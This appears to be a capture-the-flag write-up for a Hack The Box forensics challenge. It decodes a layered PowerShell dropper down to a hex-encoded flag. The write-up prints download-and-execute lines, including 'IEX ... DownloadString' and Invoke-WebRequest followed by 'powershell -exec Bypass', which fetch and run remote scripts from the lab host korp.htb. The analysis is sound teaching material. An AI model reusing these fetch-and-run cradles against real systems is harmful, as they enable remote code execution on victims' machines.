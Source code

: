 = Thorin's Amulet

Author:: 0x42697262
Category:: Forensics
Difficulty:: Very Easy
Play Date:: 2025/03/22 - 2025/03/25

[NOTE]
----
The challenge can be downloaded here: attachment::thorins-amulet/forensics_thorins_amulet.zip[forensics_thorins-amulet.zip]
----

== Overview

.Description
****
Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.
****

This forensics challenge involves analyzing a Base64-encoded PowerShell "malware" script.
The script retrieves another script from a web URL protected by basic authentication.
Inside the downloaded script lies the actual malware code—our flag.

== Investigation

I opened `artifact.ps1` and immediately noticed a Base64-encoded string being executed with `powershell.exe -EncodedCommand`.  

[NOTE]
----
The source code of the script can be downloaded attachment:thorins-amulet/files/artifact.ps1[here].
----

As I do not like running scripts without checking them first, I opened the script in a text editor:

.artifact.ps1
[, powershell]
----
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
----

=== Decoding the First Layer

Here's the relevant line:  

[, powershell]
----
powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
----

This suggests that the script is trying to execute a command encoded in *Base64*.  

Interestingly, the script contains a basic anti-analysis check:  

[, powershell]
----
if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
    exit
}
----

If the computer name isn’t `WORKSTATION-DM-0043`, the script terminates.
This is likely an attempt by the author to prevent execution on unintended machines.  

Since I was too lazy to open *CyberChef*, I extracted and decoded the Base64 string directly:  

[, bash]
----
cat artifact.ps1 | grep -Eo '"[A-Za-z0-9=/]+"' | tr -d \" | base64 -d
----

Explanation:

* `grep -Eo '"[A-Za-z0-9+/=]+"' artifact.ps1`  
** `-E`: Enables extended regular expressions.  
** `-o`: Outputs only the matched text, excluding surrounding content.  
** `"[A-Za-z0-9+/=]+"`: Matches a quoted Base64 string (Base64 consists of A-Z, a-z, 0-9, `+`, `/`, and `=` for padding).  
* `tr -d \"`  
** Removes double quotes from the matched Base64 string.  
* `base64 -d`  
** Decodes the extracted Base64 string.  

*However, a more robust approach would be to directly extract and decode the Base64 string in one step using `awk` and `base64 -d`*:

[, bash]
----
awk -F'"' '/EncodedCommand/ {print $2}' artifact.ps1 | base64 -d
----

But why is this better?
* Instead of searching for arbitrary quoted strings (grep method), it directly finds the EncodedCommand line.
* `awk -F'"' '{print $2}'` extracts only the content inside the quotes.
* More precise and avoids unintended matches.

This gave us:

[, powershell]
----
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
----

So, the script is attempting to download another payload from `http://korp.htb/update` using PowerShell’s `DownloadString` method.  

=== Fetching the Second Script

[NOTE]
----
The source code of `update.ps1` can be downloaded attachment:thorins-amulet/files/update.ps1[here].
----

.update.ps1
[, powershell]
----
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
----

In `update.ps1`, there is a function `aqFVaq`.

This function fetches another script from `http://korp.htb/a541a`, but this time it requires authentication via a custom HTTP header (`X-ST4G3R-KEY`).
Without this header, the request would fail.  

I used `curl` to manually download the script:  

[, bash]
----
curl http://korp.htb/a541a --header "X-ST4G3R-KEY:5337d322906ff18afedc1edc191d325d" -o a541a.ps1
----

Now, let’s check out `a541a.ps1`.  

== Reconstruction

[NOTE]
----
The source code of `a541a.ps1` can be downloaded attachment:thorins-amulet/files/a541a.ps1[here].
----

This is the entire `a541a.ps1` script:

.a541a.ps1
[, powershell]
----
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35 -split "(..)" | ?{$_} | % {[char][convert]::ToInt16($_,16)}) -join ""
----

Notice that a hex-encoded string is assigned to the variable `$a35` and the variable gets decoded on the next line.

Since nothing is being executed dynamically here, it should be safe to decode.  

=== Decoding the Payload

Running it in PowerShell:  

[, powershell]
----
$ powershell a541a.ps1
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
----

**Hence, flag captured! 🎉**

If you do not trust the code or do not know how to read powershell scripts, it is completely okay to copy the encoded flag hex values into CyberChef.
